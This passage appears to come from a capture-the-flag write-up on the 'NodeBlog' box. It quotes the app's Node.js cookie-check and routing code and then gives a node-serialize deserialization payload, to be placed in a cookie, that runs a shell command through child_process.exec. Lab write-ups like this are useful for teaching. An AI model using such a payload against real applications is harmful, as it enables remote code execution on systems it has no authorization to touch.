 ```bash
    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}

app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)

app.listen(5000)
```
{: .nolineno}
{: .nolineno}

Here I found unserialization so Here I should find for Deseralization RCE so lets see What I find next →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%206.png)

Lets use this Node Serealization payload here in cookie from [Payloads](https://book.hacktricks.xyz/pentesting-web/deserialization/) →

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```
{: .nolineno}
{: .nolineno}
